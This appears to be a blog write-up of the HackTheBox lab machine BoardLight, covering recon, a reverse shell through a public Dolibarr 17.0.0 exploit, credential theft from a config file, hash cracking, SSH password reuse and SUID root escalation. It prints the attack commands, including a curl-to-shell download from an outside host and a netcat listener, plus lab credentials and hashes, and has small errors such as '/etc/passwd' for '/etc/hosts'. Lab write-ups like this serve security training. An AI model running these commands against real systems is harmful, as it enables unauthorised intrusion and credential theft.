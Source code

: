 ```yaml
---
title: BoardLight
date: 2024-10-16 00:00:00 +8000
categories:
  - Writeup
  - HackTheBox
tags:
  - writeup
  - hackthebox
  - htb
  - machine
  - easy
  - linux
image:
  path: /assets/img/post/hackthebox/boardlight/thumbnail.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: HackTheBox Machine BoardLight
---
```

This is my WriteUp for the easy Linux Machine [BoardLight](https://app.hackthebox.com/machines/BoardLight) on [HackTheBox Labs](https://app.hackthebox.com/).  After starting the machine and my penetration testing environment, I connected to the HackTheBox VPN and was ready to start pwning the box.
## Recon
The first step I always do on HackTheBox machines, is executing `whatweb`, to get the hostname of the machine from the IP address:
```shell
$ whatweb 10.10.11.11
```
I got the domain name `board.htb`and added it with the IP address to the `/etc/hosts` file on my local machine.

Then I started to scan the machine for open ports with Nmap:
```shell
$ nmap -sV 10.10.11.11

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
```
The Nmap scan, resulted in two open ports. Port `22`, is a SSH server and is usually not vulnerable on HackTheBox, also the version was quite up-to-date.

On port `80`, a web application was running. Therefore, I used `gobuster` to search the website for hidden files or directories:
```shell
$ gobuster dir -u "http://10.10.11.11" -w /usr/share/wordlists/dirb/big.txt

===============================================================
/.htaccess (Status: 403) [Size: 276]
/.htpasswd (Status: 403) [Size: 276]
/css (Status: 301) [Size: 308] [--> http://10.10.11.11/css/]
/images (Status: 301) [Size: 311] [--> http://10.10.11.11/images/]
/js (Status: 301) [Size: 307] [--> http://10.10.11.11/js/]
/server-status (Status: 403) [Size: 276]
===============================================================
```

I found nothing interesting, so I continued to enumerate the domain for subdomains with `ffuf`. Unfortunately, the domain has many empty subdomains, so I filtered the HTTP response size with the `-fs` flag:
```shell
$ ffuf -u http://board.htb/ -H 'Host: FUZZ.board.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -c -fs 15949

--------------------------------------------
crm [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 78ms]
--------------------------------------------
```
The scan found on subdomain called `crm`, so I added `crm.board.htb` to `/etc/passwd`.

The `crm.board.htb` subdomain runs the Customer Relationship Management(CRM) software **Dolibarr** on version `17.0.0`. 

After searching for "Dolibarr 17.0.0 exploit", I found an [Proof of Concept (PoC) exploit on Github](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253). 
I cloned the repository to my local machine and read through the Python code, to ensure that nothing malicious is happening. Everything looked fine, so I started a reverse shell with Netcat:
```shell
nc -lnvp 5555
```

And after that executed the `exploit.py` file:
```shell
python3 exploit.py http://crm.board.htb admin admin 10.10.55.555 5555
```

And we got the reverse-shell for the user `www-data`!

Now lets get a foothold and elevate our privileges to be able to connect with SSH.

---
## Foothold
After searching around in the website directory, I decided to search for a `conf` directory:
```shell
$ find / -type d -name 'conf'

...
/var/www/html/crm.board.htb/htdocs/conf
...
```
I found one, in side the CRM application directory (`/var/www/html/crm.board.htb/htdocs/conf`) directory.
It contained some configuration files and inside the `conf.php`, I found following database credentials:
```shell
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

I used the `mysql` command line utility to log into the database:
```shell
mysql -u dolibarrowner -p
```

I searched for interesting SQL tables and dumped the content of `llx_user`:
```sql
> USE dolibarr
> SHOW TABLES;
> SELECT * FROM llx_user;
```

The dump contained some hashed credentials:
- `admin:$2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96`
- `dolibarr:$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm`

I put the hashes in a file(`hashes`) and used hashcat with the mode (`-m`) `3200`(Blowfish (Unix)) to crack them:
```shell
hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt
```
After a few seconds hashcat found only the password for the `admin` user, which is also `admin`.

I tried the password with the different users, but it did not work. But then, I remembered the other password in the configuration file (`serverfun2$2023!!`) and tried to login with that as well.

And it worked! We could login as user `larissa` and the password `serverfun2$2023!!` with SSH:
```shell
ssh larissa@board.htb
```

It worked and I could get the user flag from `/home/larissa/user.txt`!

---
## Privilege Escalation
Now, lets escalate our privileges to get access to the `root` user.
So the first thing I always do, is to list the `sudo` capabilities with the `-l` flag:
```shell
sudo -l
```
But it the user `larissa` is not allowed to run `sudo` on the machine.

After that, I moved `linpease.sh` to the machine and executed it:
```shell
$ curl -L http://10.10.14.151:8000/linpease.sh | sh
```
The output showed, that the user `larissa` is in the `adm` group. That usually means, that we can read files in the `/var/log/` directory.

I searched through the log files for the `sudo` and `su` command:
```shell
grep -RE 'comm="su"|comm="sudo"' /var/log* 2>/dev/null
```
But I also found anything interesting.

Then I tried to list all binaries, where the SUID bit is set:
```shell
find / -perm -u=s -type f 2>/dev/null
```
And a unusual executable called `freqset` was listed.

I researched the binary name and found an [exploit for it on Github](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit). Again I cloned it to my machine, and read through the bash script, to check what it does and if anything malicious is happening.

Everything looked fine again, I moved the `exploit.sh` script to the target machine and executed it. 

This resulted in a `root` shell and could read the `/root/root.txt` file and got the flag!

---
## Exploit Chain
**Recon:**
1. Port scan with `nmap`
2. Enumerate subdomains with `ffuf`
3. Search for Dolibarr version `17.0.0.` vulnerabilities
4. Use the PoC to get a reverse shell

**Foothold:**
5. Search for configuration files
6. Get the database password
7. Test if the password was reused
8. Login with SSH as user `larissa`

**Privilege Escalation:**
9. Research binaries with the SUID bit set for vulnerabilities
10. Exploit the `freqset` vulnerability to get a `root` shell

---
## Resources
- [Dolibarr exploit](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)
- [`freqset` exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
